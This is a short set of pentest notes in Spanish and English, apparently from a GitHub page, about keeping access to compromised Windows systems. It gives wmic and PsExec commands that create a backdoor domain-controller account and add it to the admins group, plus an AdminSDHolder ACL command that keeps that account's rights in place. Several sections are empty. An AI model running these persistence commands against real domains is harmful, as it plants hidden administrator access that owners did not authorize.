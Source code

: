 # Keep Access:
Mantener el acceso es importante porque los pentest duran dias, no es funcional tener que explotar las vulnerabilidades todos los dias, lo mejor es buscar formas más directas de acceder de nuevo.

* Siempre borra los accesos o cambios que hayas creado!

## Local Admin:

### Start Up folder:


## Active Directory:

### Domain Dominance:
Cuando se tiene domain admin, se puede tomar permanencia de diversos formas:

#### Remote Code Exec:
Agregando un usuario que conozcamos la contraseña para poder ejecutar por CLI conexiones:

- wmic /node:<DomaincontrollerName> process call create "net user /add PiratedProcess Du^^Y01" Here, PiratedProcess and Du^^Y01 are the user ID and password of the planted dummy process on the target user’s DC.

Add the user to the “Admins” group.
- PsExec.exe \\< DomaincontrollerName> -accepteula net localgroup "Admins" PiratedProcess /add

### AdminSDHolder:
Función de AD que hace que cada cierto tiempo (1 min por defecto) se asigen de nuevo los permisos de "domain admin" a los usuarios adminsitradores del AD, con la finalidad que sí un usuario es modificado maliciosamente o por error vuelva a su estado normal.
Pero esta misma función puede ser util para que en caso de que se eliminen permisos a un usuario agregado maliciosamente, se resetee a domain admin por el objeto AdminSDHolder.

```
Add-ObjectAcl-TargetADSprefix 'CN=AdminSDHolder,CN=System' PrincipalSamAccountName Martin -Verbose -Rights All 
```


### Power-tools
















